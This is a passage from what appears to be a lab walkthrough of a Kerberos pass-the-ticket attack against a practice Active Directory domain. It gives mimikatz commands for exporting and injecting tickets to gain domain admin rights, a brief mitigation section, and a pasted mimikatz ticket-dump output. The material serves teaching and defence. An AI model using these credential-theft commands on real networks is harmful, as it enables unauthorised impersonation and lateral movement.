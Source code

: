 1.) kerberos::ptt </ticket> - run this command inside of mimikatz with the ticket that you harvested from earlier. It will cache and impersonate the given ticket

![](https://i.imgur.com/DwXmm8Z.png)

2.) klist - Here were just verifying that we successfully impersonated the ticket by listing our cached tickets.

We will not be using mimikatz for the rest of the attack.

![](https://i.imgur.com/GgxDm9k.png)

3.) You now have impersonated the ticket giving you the same rights as the TGT you're impersonating. To verify this we can look at the admin share.

![](https://i.imgur.com/9nxjeTS.png)

Note that this is only a POC to understand how to pass the ticket and gain domain admin the way that you approach passing the ticket may be different based on what kind of engagement you're in so do not take this as a definitive guide of how to run this attack.

Pass the Ticket Mitigation -

Let's talk blue team and how to mitigate these types of attacks. 

    Don't let your domain admins log onto anything except the domain controller - This is something so simple however a lot of domain admins still log onto low-level computers leaving tickets around that we can use to attack and move laterally with.

```
C:\Users\Administrator\Downloads>dir
 Volume in drive C has no label.
 Volume Serial Number is E203-08FF

 Directory of C:\Users\Administrator\Downloads

05/25/2020  03:45 PM    <DIR>          .
05/25/2020  03:45 PM    <DIR>          ..
05/25/2020  03:45 PM         1,263,880 mimikatz.exe
05/25/2020  03:14 PM           212,480 Rubeus.exe
               2 File(s)      1,476,360 bytes
               2 Dir(s)  50,897,174,528 bytes free

C:\Users\Administrator\Downloads>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 May 19 2020 00:48:59
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::tickets /export

Authentication Id : 0 ; 3098262 (00000000:002f4696)
Session           : Service from 0
User Name         : sshd_2616
Domain            : VIRTUAL USERS
Logon Server      : (null)
Logon Time        : 8/20/2022 10:38:21 AM
SID               : S-1-5-111-3847866527-469524349-687026318-516638107-1125189541-2616

         * Username : CONTROLLER-1$
         * Domain   : CONTROLLER.local
```